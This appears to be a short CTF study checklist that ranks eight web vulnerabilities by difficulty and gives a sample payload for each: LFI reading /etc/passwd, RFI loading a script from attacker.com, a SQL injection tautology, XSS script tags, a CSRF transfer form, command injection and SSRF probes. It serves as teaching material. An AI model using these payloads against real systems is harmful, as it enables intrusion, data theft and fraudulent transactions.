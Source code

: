 # CTF Checklist: From Easy to Harder Vulnerabilities

This CTF checklist provides guidelines to help you progress through various vulnerabilities, starting with easier ones and advancing to more challenging ones. Each vulnerability comes with sample payloads that you can use to exploit them. Remember, learning from challenges is the primary goal, so always try to understand the underlying concepts.

## 1. Directory Listing

Sample Payload:
```
No payload needed. Access a directory that should not be publicly accessible and check if the server returns a list of files.
```

## 2. File Inclusion

Sample Payload (Local File Inclusion):
```
http://example.com/page.php?file=/etc/passwd
```

Sample Payload (Remote File Inclusion):
```
http://example.com/page.php?file=http://attacker.com/malicious_script.php
```

## 3. SQL Injection

Sample Payload:
```
' OR 1=1 -- 
```

## 4. Cross-Site Scripting (XSS)

Sample Payload (Stored XSS):
```html
<script>alert("XSS Attack");</script>
```

Sample Payload (Reflected XSS):
```
http://example.com/search?q=<script>alert("XSS Attack");</script>
```

## 5. Cross-Site Request Forgery (CSRF)

Sample Payload:
```html
<form action="http://example.com/transfer" method="POST">
  <input type="hidden" name="amount" value="100">
  <input type="hidden" name="destination" value="attacker_account">
  <input type="submit" value="Click here to claim your reward!">
</form>
```

## 6. Command Injection

Sample Payload:
```
; ls -la
```

## 7. Server-Side Request Forgery (SSRF)

Sample Payload:
```
http://example.com/endpoint?url=http://internal_server/internal_resource
```

## 8. Remote Code Execution (RCE)

Sample Payload:
```
; echo "RCE Successful" > /tmp/rce.txt
```

---

Remember to always play fair, respect the CTF platform's rules, and seek knowledge from your experiences. Happy hacking and learning!
